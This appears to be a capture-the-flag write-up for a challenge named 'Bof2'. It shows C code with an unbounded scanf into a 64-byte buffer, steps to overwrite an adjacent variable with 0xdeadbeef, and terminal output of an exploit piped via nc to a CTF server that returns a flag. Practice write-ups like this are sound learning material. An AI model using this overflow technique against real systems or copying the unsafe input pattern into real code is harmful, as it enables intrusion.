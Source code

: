 # Bof2

### this is the vulnerability
```
int correct = 0;
char bof[64];
scanf("%s",bof);
if(correct != 0xdeadbeef)
{
	puts("you suck!\n");
	fflush(stdout);
	exit(0);
}

win();

 ```

## goal

1. fill the buffer
2. overrite valuable correct with  0xdeadbeef
3. win();




### IN THE WILD

```
bof2$ python exploit.py
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ

kettle@OfKetchup:bof2$ python exploit.py | nc ctf.hackucf.org 9001
flag{KETTLEOFKETCHUP}

```
